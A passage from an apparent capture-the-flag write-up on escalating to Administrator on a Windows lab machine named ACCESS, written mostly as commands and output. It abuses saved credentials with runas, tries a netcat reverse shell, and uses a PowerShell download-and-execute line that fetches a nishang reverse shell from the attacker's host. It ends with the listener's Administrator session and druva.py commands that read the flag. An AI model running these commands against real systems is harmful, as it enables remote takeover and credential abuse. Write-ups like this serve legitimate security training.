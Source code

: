 ```
runas /savecred /user:ACCESS\Administrator "ping -n 4 10.10.14.17"
```
`sudo tcpdump -i tun0 icmp`
ping works so runas is working, it just does not return anything

The command below should work but it did not work. I am not sure why since ping is working.
```
runas /savecred /user:ACCESS\Administrator "nc.exe -c cmd.exe 10.10.14.17 1234"
```


### Successful one
We can create the shell using Invoke-PowerShellTcp.ps1.
https://github.com/samratashok/nishang

At the end of the line, we need to add
`Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.17 -Port 1234`

From security machine
```
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.17:8080/shell.ps1')"
```

In Kali
Open python server in the same directory as the shell.ps1.
Open another shell for nc listener.


## Root flag
```
nc -lnvp 1234
listening on [any] 1234 ...
connect to [10.10.14.17] from (UNKNOWN) [10.129.88.24] 49174
whoWindows PowerShell running as user Administrator on ACCESS
Copyright (C) 2015 Microsoft Corporation. All rights reserved.

PS C:\Windows\system32>    
```

```
PS C:\Users\Administrator\Desktop> type root.txt
```

```
C:\python27\druva.py "C:\windows\system32\cmd.exe /C copy C:/Users/Administrator/Desktop/flag.txt C:/Users/public"
```

```
C:\python27\druva.py "windows\system32\cmd.exe /C dir C:/Users > C:/Users/Public/test.txt"
```